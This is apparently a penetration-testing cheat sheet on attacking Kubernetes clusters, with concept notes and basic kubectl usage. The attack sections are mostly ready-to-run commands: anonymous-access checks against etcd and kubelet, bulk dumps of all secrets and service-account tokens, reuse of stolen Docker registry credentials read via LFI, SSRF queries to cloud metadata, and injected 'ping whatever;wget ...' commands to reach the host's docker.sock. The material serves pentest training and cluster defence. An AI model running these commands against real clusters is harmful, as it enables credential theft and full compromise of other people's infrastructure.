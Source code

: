 ## Kubernetes

### **Concepts**

* Kubernetes is a security orchestrator
* Kubernetes master provides an API to interact with nodes
* Each Kubernetes node run kubelet to interact with API and kube-proxy to refect Kubernetes networking services on each node.
* Kubernetes objects are abstractions of states of your system.
  * Pods: collection of container share a network and namespace in the same node.
  * Services: Group of pods running in the cluster.
  * Volumes: directory accesible to all containers in a pod. Solves the problem of loose info when container crash and restart.
  * Namespaces: scope of Kubernetes objects, like a workspace \(dev-space\).

### **Commands**

```text
# kubectl cli for run commands against Kubernetes clusters
# Get info
kubectl cluster-info
# Get other objects info
kubectl get nodes
kubectl get pods
kubectl get services
# Deploy
kubectl run nginxdeployment --image=nginx:alpine
# Port forward to local machine
kubectl port-forward <PODNAME> 1234:80
# Deleting things
kubectl delete pod
# Shell in pod
kubectl exec -it <PODNAME> sh
# Check pod log
kubectl logs <PODNAME>
# List API resources
kubectl api-resources
# Check permissions
kubectl auth can-i create pods
# Get secrets
kubectl get secrets <SECRETNAME> -o yaml
# Get more info of specific pod
kubectl describe pod <PODNAME>
# Get cluster info
kubectl cluster-info dump

# Known vulns
CVE-2016-9962
CVE-2018-1002105
CVE-2019-5736
CVE-2019-9901
```

### External Recon

```bash
# Find subdomains like k8s.target.tld
# Search for yaml files on GitHub
# Check etcdtcl exposed public 
etcdctl –endpoints=http://<MASTER-IP>:2379 get / –prefix –keys-only
# Check pods info disclosure on http://<external-IP>:10255/pods
```

#### Common open ports

![](../../.gitbook/assets/image%20%2850%29.png)

#### Common endpoints

![](../../.gitbook/assets/image%20%2848%29.png)

### Quick attacks

```bash
# Dump all
for res in $(kubectl api-resources -o name);do kubectl get "${res}" -A -o yaml > ${res}.yaml; done

# Check for anon access
curl -k https://<master_ip>:<port>
etcdctl –endpoints=http://<MASTER-IP>:2379 get / –prefix –keys-only
curl http://<external-IP>:10255/pods

#Dump tokens from inside the pod
kubectl exec -ti <pod> -n <namespace> cat /run/secrets/kubernetes.io/serviceaccount/token

#Dump all tokens from secrets
kubectl get secrets -A -o yaml | grep " token:" | sort | uniq > alltokens.txt

#Standard query for creds dump:
curl -v -H "Authorization: Bearer <jwt_token>" https://<master_ip>:<port>/api/v1/namespaces/<namespace>/secrets/
# This also could works /api/v1/namespaces/kube-system/secrets/
```

### Attack Private Registry misconfiguration

```bash
# Web application deployed vulnerable to lfi
# Read configuration through LFI
cat /root/.docker/config.json
# Download this file to your host and configure in your system
docker login -u _json_key -p "$(cat config.json)" https://gcr.io
# Pull the private registry image to get the backend source code
docker pull gcr.io/training-automation-stuff/backend-source-code:latest
# Inspect and enumerate the image
docker run --rm -it gcr.io/training-automation-stuff/backend-source-code:latest
# Check for secrets inside container
ls -l /var/run/secrets/kubernetes.io/serviceaccount/
# Check environment vars
printenv
```

### Attack Cluster Metadata with SSRF

```bash
# Webapp that check the health of other web applications
# Request to 
curl http://169.254.169.254/computeMetadata/v1/
curl http://169.254.169.254/computeMetadata/v1/instance/attributes/kube-env
```

### Attack escaping pod volume mounts to access node and host

```bash
# Webapp makes ping
# add some listing to find docker.sock
ping whatever;ls -l /custom/docker/
# Once found, download docker client
ping whatever;wget https://download.docker.com/linux/static/stable/x86_64/docker-18.09.1.tgz -O /root/docker-18.09.1.tgz
ping whatever;tar -xvzf /root/docker-18.09.1.tgz -C /root/
ping whatever;/root/docker/docker -H unix:///custom/docker/docker.sock ps
ping whatever;/root/docker/docker -H unix:///custom/docker/docker.sock images
```

### Tools

```bash
# kube-bench - secutity checker
kubectl apply -f kube-bench-node.yaml
kubectl get pods --selector job-name=kube-bench-node
kubectl logs kube-bench-podname

# https://github.com/aquasecurity/kube-hunter
kube-hunter --remote some.node.com

# kubeaudit
./kubeaudit all

# kubeletctl
# https://github.com/cyberark/kubeletctl
kubeletctl scan rce XXXXXXXX

# https://github.com/cdk-team/CDK
cdk evaluate

# Api audit
# https://github.com/averonesis/kubolt
```

